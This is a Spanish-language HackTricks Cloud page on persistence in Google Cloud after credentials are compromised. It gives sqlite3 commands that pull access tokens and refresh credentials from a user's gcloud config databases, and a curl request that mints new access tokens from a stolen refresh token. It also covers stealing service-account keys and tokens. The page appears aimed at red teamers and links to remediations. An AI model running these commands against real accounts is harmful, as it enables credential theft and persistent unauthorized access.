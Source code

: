# GCP - Persistencia No-svc

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

Estas son técnicas útiles una vez que, de alguna manera, has comprometido algunas credenciales de GCP o una máquina que se ejecuta en un entorno de GCP.

## Secuestro de Token

### Usuario Autenticado

Si logras acceder a la carpeta de inicio de un **usuario autenticado en GCP**, por **defecto**, podrás **obtener tokens para ese usuario todo el tiempo que quieras** sin necesidad de autenticarte y de manera independiente de la máquina que uses sus tokens y aunque el usuario tenga MFA configurado.

Esto se debe a que por defecto **podrás usar el token de actualización todo el tiempo que quieras** para generar nuevos tokens.

Para obtener el token actual de un usuario puedes ejecutar:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
```plaintext
Para obtener los detalles para generar un nuevo token de acceso, ejecute:
```
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
```plaintext
Para obtener un nuevo token de acceso actualizado con el token de actualización, ID de cliente y secreto de cliente, ejecute:
```
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

La validez de los tokens de actualización se puede gestionar en **Admin** > **Seguridad** > **Control de sesión de Google Cloud**, y por defecto está configurado a 16h aunque se puede configurar para que nunca expire:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Cuentas de Servicio

Al igual que con los usuarios autenticados, si logras **comprometer el archivo de clave privada** de una cuenta de servicio podrás **acceder a ella generalmente todo el tiempo que desees**.\
Sin embargo, si robas el **token OAuth** de una cuenta de servicio esto puede ser aún más interesante, porque, aunque por defecto estos tokens son útiles solo por una hora, si la **víctima elimina la clave privada de la API, el token OAuth seguirá siendo válido hasta que expire**.

### Metadatos

Obviamente, mientras estés dentro de una máquina que se ejecuta en el entorno de GCP podrás **acceder a la cuenta de servicio asociada a esa máquina contactando el punto final de metadatos** (ten en cuenta que los tokens OAuth a los que puedes acceder en este punto final suelen estar restringidos por ámbitos).

### Remediaciones

Algunas remediaciones para estas técnicas se explican en [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## Referencias

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
